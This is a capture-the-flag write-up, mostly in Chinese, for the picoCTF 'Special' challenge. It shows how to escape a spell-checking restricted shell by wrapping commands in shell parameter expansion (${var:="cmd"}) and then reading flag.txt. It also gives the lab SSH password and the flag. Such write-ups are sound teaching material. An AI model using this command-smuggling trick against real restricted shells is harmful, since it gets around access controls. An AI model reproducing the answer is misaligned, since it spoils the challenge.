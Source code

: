 # Description
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.
Additional details will be available after launching your challenge instance.
ssh -p 50767 ctf-player@saturn.picoctf.net The password is d137d16e


# 解題
先使用 `ssh` 連線並輸入密碼 `d137d16e`
```bash
ssh -p 50767 ctf-player@saturn.picoctf.net
```
普通指令輸入方式是無效的，根據 Hint 表示要嘗試 "different shell syntax"（本題需要 [Shell Expansion](../Info/Shell%20Expansions.md) 觀念），所以使用以下方式輸入指令：
```bash
# 語法
${variableName:="指令"}

# 範例
# 當 example 未設值時，將其設成 `ls`
${example:="ls"}
```
使用上述方式輸入指令，發現 flag.txt 放在 blargh 目錄下，接下來使用 `cat` 輸出內容即可得到 flag
```bash
# 發現目錄底下有個 blargh 目錄
Special$ ${Test:="ls -al"}
${Test:="ls -al"} 
total 0
drwxr-xr-x 1 ctf-player ctf-player 20 Aug  1 02:29 .
drwxr-xr-x 1 root       root       24 Mar 16  2023 ..
drwx------ 2 ctf-player ctf-player 34 Aug  1 02:29 .cache
drwxr-xr-x 2 ctf-player ctf-player 22 Mar 16  2023 blargh

# blargh 底下放 flag.txt
Special$ ${Test:="ls -al blargh"}
${Test:="ls pal blargh"} 
ls: cannot access 'pal': No such file or directory
blargh:
flag.txt

# 使用 `cat` 輸出 flag.txt
Special$ ${Test:="cat blargh/flag.txt"}
${Test:="cat blargh/flag.txt"} 
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}
```




<!-- flag -->
所以本題 FLAG 
```text
picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}
```

# 相關學習資源
[Shell Expansion](../Info/Shell%20Expansions.md)  